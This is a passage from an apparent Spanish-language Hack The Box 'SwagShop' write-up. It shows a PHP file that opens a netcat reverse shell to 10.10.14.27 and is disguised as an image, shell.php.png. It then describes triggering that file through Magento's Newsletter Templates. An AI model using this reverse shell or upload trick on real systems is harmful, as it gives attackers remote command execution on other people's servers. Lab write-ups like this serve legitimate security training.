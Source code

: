 ```php
<?php
  passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 443 >/tmp/f")
?>
```

Y guardamos los cambios.

![](/assets/images/htb-swagshop/swagshop-web7.png)

Ahora vamos a darle click secundario en el hipervínculo donde se encuentra nuestra imagen y nos vamos a quedar con la parte de `/media/catalog/category/shell.php.png`, ya que dicho recurso existe a nivel de sistema. Ahora nos falta hacer un llamado a nuestro archivo para que se ejecute, esto lo logramos en la sección **Newsletter > Newsletter Templates**.

![](/assets/images/htb-swagshop/swagshop-web8.png)
